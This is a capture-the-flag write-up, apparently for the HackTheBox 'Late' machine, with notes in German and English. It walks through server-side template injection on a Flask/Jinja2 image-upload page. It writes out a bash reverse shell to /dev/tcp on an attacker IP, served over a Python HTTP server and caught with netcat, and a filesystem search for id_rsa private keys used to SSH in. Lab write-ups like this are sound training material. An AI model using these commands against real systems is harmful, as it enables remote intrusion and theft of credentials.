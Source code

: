 Website generated with Flask.
Flask: Flask ist ein in Python geschriebenes Webframework.
Die einzigen Abhängigkeiten sind Jinja2, eine Template-Engine, und Werkzeug, eine Bibliothek zum Erstellen von WSGI-Anwendungen.
Programmiersprache: Python
Jinja2 is used by Python Web Frameworks such as Django or Flask.
Nutzt Template-Engine --> SSTI?
![](images.late.htb.png)
## Test polyglot ssti from cobalt: https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti
If it throws an error ssti is succussfull
How to: grab screen area with payload and save it (ssti-cobalt.png).
![](ssti-cobalt-polyglot.png)
![](https://github.com/xenotim/CTF/blob/main/Late/screenshots/images.late.htb-upload%20image.png)

Result:
![](https://github.com/xenotim/CTF/blob/main/Late/screenshots/ssti-polyglot-response.png)

SSTI payload was succusfull! --> throws error!

Test: {{7*7}} --> 49 if successfull
![](https://github.com/xenotim/CTF/blob/main/Late/screenshots/ssti-77.png)

Result: 49 --> injectable
![](https://github.com/xenotim/CTF/blob/main/Late/screenshots/ssti-77-result.png)

SSTI remote commands from: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
![](https://github.com/xenotim/CTF/blob/main/Late/screenshots/ssti%20payload%20rce.png)

## Result
![](ssti id.png)
# getting shell

payload:
![](https://github.com/xenotim/CTF/blob/main/Late/screenshots/ssti%20reverse%20shell.png)

make dir www with index.html file:
````
bash -i >& /dev/tcp/10.10.14.5/1111 0>&1

`````

make python http.server on port 80 in the www folder
![](python3 http server on port 80.png)
nc listen on port 1111
![](https://github.com/xenotim/CTF/blob/main/Late/screenshots/nc%20shell.png)

look for id_rsa file
````
find / -type f -name id_rsa 2>/dev/null



`````

chmod 600 id_rsa --> ssh to the machine



XXXXXXXXXXXXXXXXXXXXXXXXX
